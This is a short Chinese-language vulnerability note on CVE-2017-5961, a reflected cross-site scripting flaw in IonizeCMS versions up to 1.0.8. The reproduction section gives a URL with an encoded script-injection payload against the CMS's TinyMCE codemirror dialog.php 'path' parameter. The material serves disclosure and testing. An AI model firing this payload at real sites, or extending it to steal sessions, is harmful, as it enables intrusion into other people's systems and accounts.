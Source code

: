 ```yaml
---
title: "（CVE-2017-5961）IonizeCMS xss"
id: zhfly2977
---
```


# （CVE-2017-5961）IonizeCMS xss

## 一、漏洞简介

该漏洞源于在‘path’HTTP GET参数传递到‘ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php’URL时，程序没有充分地过滤此参数中用户提交的数据。攻击者可利用该漏洞在浏览器中执行任意的HTML和脚本代码。

## 二、漏洞影响

<=Ionize 1.0.8

## 三、复现过程

```
http://0-sec.org/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%22 
```